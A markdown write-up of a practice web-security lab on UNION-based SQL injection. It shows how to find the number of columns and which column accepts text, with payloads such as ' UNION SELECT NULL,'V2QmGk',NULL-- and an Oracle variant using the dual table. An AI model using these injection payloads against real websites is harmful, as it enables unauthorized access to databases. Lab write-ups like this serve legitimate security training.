





# Lab: SQL Injection — UNION Attack (Finding a Column Containing Text)

## Objective
Identify which column in the database supports **text data** in order to use it for extracting information via a UNION-based SQL injection.

---

## Steps

1. Open the lab website.
2. Navigate to a product category (e.g., "Gifts").
3. inject payload into url:

---

## Step 1: Determine Number of Columns Using UNION SELECT

### ' UNION SELECT NULL,NULL,NULL--
#### If no error → correct number of columns 

## BUT WE NEED FIRST KNOW WHICH TYPE OF DATABASE USED:

### IF its oracle database we should use dual table 

### ' UNION SELECT NULL,NULL,NULL FROM dual--

### else 

### ' UNION SELECT NULL,NULL,NULL--

## SO ITS NOT ORACLE DATABASE

---

## Step 2: Find Column That Accepts Text

### Replace each NULL with a string: 'V2QmGk'
THE PROVIDED VALUE OF STRING MAY APPEARS DIFFERANT ON OUR LAB 

### ' UNION SELECT 'V2QmGk',NULL,NULL--

#### If error → column 1 does NOT accept text

#### Try next:

### ' UNION SELECT NULL,'V2QmGk',NULL--

##### If it works → column 2 accepts text

---

## Payload
## ' UNION SELECT NULL,'V2QmGk',NULL--

## Explanation

## The UNION operator combines results from two queries.

## For it to work:

### Number of columns must match
### Data types must match

### By injecting:

### ' UNION SELECT NULL,'test',NULL--
### NULL is used as a placeholder for unknown data types
### 'test' checks which column supports string data
### When the query succeeds, the text appears in the response

